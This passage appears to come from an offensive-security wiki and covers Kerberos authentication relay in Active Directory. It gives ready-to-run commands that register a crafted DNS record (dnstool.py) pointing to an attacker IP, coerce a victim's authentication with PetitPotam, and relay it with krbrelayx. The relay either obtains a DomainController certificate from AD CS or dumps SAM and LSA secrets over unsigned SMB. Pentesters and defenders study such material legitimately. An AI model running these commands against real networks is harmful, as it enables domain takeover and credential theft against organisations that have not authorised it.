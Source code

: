 > Another issue is that the size limit of a single name in DNS is 63 characters. The minimum valid marshaled buffer is 44 characters long leaving only 19 characters for the SPN part. This is at least larger than the minimum NetBIOS name limit of 15 characters so as long as there's an SPN for that shorter name registered it should be sufficient. However if there's no short SPN name registered, then it's going to be more difficult to exploit.
>
> _(James Forshaw, October 20, 2021,_ [_source_](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)_)_

It is therefore necessary to restrict the content of the `CREDENTIAL_TARGET_INFORMATION` structure as much as possible. The minimal `CREDENTIAL_TARGET_INFORMATION` structure contains `1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA`.

1. First of all, register the specific DNS record (the NetBIOS being that of **the machine which is going to receive the relay**, for example the PKI, and not the one which will be coerced). This can be performed with [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py) (Python):

```
dnstool.py -u "$DOMAIN\\$USERNAME" -p "$PASSWORD" -r "[ADCS_NETBIOS]1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" -d "$ATTACKER_IP" --action add "$DC_IP" --tcp
```

2. Then, trigger an authentication coerce (for example, with [PetitPotam](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-efsr)) from the target to the DNS record, and relay the authentication with [krbrelayx](https://github.com/dirkjanm/krbrelayx) (Python). For example, here to the [PKI HTTP endpoint](https://www.thehacker.recipes/ad/movement/adcs/unsigned-endpoints#Web-endpoint-ESC8):

```
# In a first terminal, krbrelayx waiting for an authentication to relay
krbrelayx.py -t 'http://$ADCS_FQDN/certsrv/certfnsh.asp' --adcs --template DomainController -v '$RELAYED_TARGET_SAMNAME'

# In a second terminal, coerce the victim authentication to the DNS record
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD "[ADCS_NETBIOS]1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" $TARGET_IP
```

In the case where the target of the relay (**the machine receiving the relay**) is an unsigned SMB service, and the authentication obtained is privileged, the following command will [dump the SAM and the LSA secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets):

```
krbrelayx.py -t smb://$TARGET_FQDN
```

```
krbrelayx.py -t smb://$TARGET_FQDN
```

### Abuse from multicast poisoning <a href="#abuse-from-multicast-poisoning" id="abuse-from-multicast-poisoning"></a>

When a web server requests Kerberos authentication, it does not use the destination URL to determine the SPN for which an ST is to be retrieved, but rather the response name of the DNS response. Nominally, these two elements should coincide. The client accesses a login URL, performs the DNS query for the server's FQDN, then performs the ST request from the DNS response, and constructs the `AP-REQ`.
